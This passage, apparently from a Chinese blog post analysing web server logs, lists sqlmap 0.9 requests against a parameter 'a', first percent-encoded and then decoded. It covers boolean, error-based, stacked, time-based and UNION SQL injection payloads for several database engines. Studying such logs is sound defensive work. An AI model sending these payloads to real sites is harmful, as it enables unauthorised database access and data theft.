GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%28%27NTJB%27%3D%27NTJB HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%28%27oeMZ%27%3D%27oeMZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27ybnv%27%3D%27ybnv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27xgNZ%27%3D%27xgNZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27NcqU%27%3D%27NcqU HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27QwuM%27%3D%27QwuM HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27taty%27%3D%27taty HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27WMQh%27%3D%27WMQh HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27xCZi%27%3D%27xCZi HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27mLyg%27%3D%27mLyg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL--%20AND%20%27uZYX%27%3D%27uZYX HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%27sNHY%27%3D%27sNHY HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27kGUJ%27%3D%27kGUJ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27LgDK%27%3D%27LgDK HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27EVdv%27%3D%27EVdv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27rJml%27%3D%27rJml HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27DaKV%27%3D%27DaKV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27nUAD%27%3D%27nUAD HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27yeMd%27%3D%27yeMd HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27ttBR%27%3D%27ttBR HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
</code></pre>
这些log有太多的百分号编码，稍微影响阅读，这里我帖一下转译完成的代码
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1"(''("(')( HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 8676=9977 AND (9633=9633 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 3925=3925 AND (9861=9861 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 636=7258 AND (5513=5513 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 4986=6711 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 3925=3925 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 3864=9683 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 940=4505 AND ('konc'='konc HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 3925=3925 AND ('FFCP'='FFCP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 7381=1001 AND ('OLcv'='OLcv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 2327=9115 AND 'Qlha'='Qlha HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 3925=3925 AND 'Wlgw'='Wlgw HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 1192=5861 AND 'mmuZ'='mmuZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND (7269=7269 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND ('kalg'='kalg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND 'bMbA'='bMbA HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) AND (1279=1279 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) AND ('RfWr'='RfWr HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) AND 'uRAt'='uRAt HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) AND (3395=3395 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) AND ('FJAP'='FJAP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) AND 'wdHo'='wdHo HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) AND (1009=1009 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) AND ('ytpV'='ytpV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) AND 'KQDt'='KQDt HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1); SELECT SLEEP(5);--  AND (7560=7560 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1; SELECT SLEEP(5);-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1'); SELECT SLEEP(5);--  AND ('AfMz'='AfMz HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1'; SELECT SLEEP(5);--  AND 'pIKO'='pIKO HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1); SELECT PG_SLEEP(5);-- AND (3641=3641 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1; SELECT PG_SLEEP(5);-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1'); SELECT PG_SLEEP(5);-- AND ('mTPd'='mTPd HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1'; SELECT PG_SLEEP(5);-- AND 'lhez'='lhez HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1); WAITFOR DELAY '0:0:5';-- AND (5747=5747 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1; WAITFOR DELAY '0:0:5';-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1'); WAITFOR DELAY '0:0:5';-- AND ('iUug'='iUug HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1'; WAITFOR DELAY '0:0:5';-- AND 'oGtV'='oGtV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND SLEEP(5) AND (3924=3924 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND SLEEP(5) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND SLEEP(5) AND ('vnCj'='vnCj HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND SLEEP(5) AND 'xHdS'='xHdS HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 851=(SELECT 851 FROM PG_SLEEP(5)) AND (7626=7626 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 851=(SELECT 851 FROM PG_SLEEP(5)) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 851=(SELECT 851 FROM PG_SLEEP(5)) AND ('vrAE'='vrAE HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 851=(SELECT 851 FROM PG_SLEEP(5)) AND 'VcUg'='VcUg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) WAITFOR DELAY '0:0:5'-- AND (3376=3376 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 WAITFOR DELAY '0:0:5'-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') WAITFOR DELAY '0:0:5'-- AND ('cMqq'='cMqq HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' WAITFOR DELAY '0:0:5'-- AND 'QQdM'='QQdM HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) AND (4545=4545 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) AND ('JNkT'='JNkT HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) AND 'YxKy'='YxKy HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL# AND (771=771 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL# AND (2265=2265 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL# AND (6668=6668 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL# AND (3039=3039 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# AND (7237=7237 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# AND (1361=1361 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (7315=7315 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (6174=6174 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (5136=5136 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (2494=2494 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL# AND ('nymA'='nymA HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL# AND ('ijmk'='ijmk HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL# AND ('oFxP'='oFxP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL# AND ('CWYo'='CWYo HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# AND ('lxqZ'='lxqZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# AND ('DWNP'='DWNP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('byrs'='byrs HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('KEvQ'='KEvQ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('OLyg'='OLyg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('TOsV'='TOsV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL# AND 'mDCu'='mDCu HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL# AND 'VTxz'='VTxz HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL# AND 'YmTa'='YmTa HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL# AND 'MMix'='MMix HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# AND 'bXGh'='bXGh HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# AND 'DuTO'='DuTO HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'JVBX'='JVBX HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'xxHC'='xxHC HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'zReF'='zReF HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'iOvN'='iOvN HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL-- AND (2876=2876 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL-- AND (4969=4969 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL-- AND (1601=1601 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL-- AND (5858=5858 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND (67=67 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND (6756=6756 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (3876=3876 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (1001=1001 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (7414=7414 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (767=767 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL-- AND ('NTJB'='NTJB HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL-- AND ('oeMZ'='oeMZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
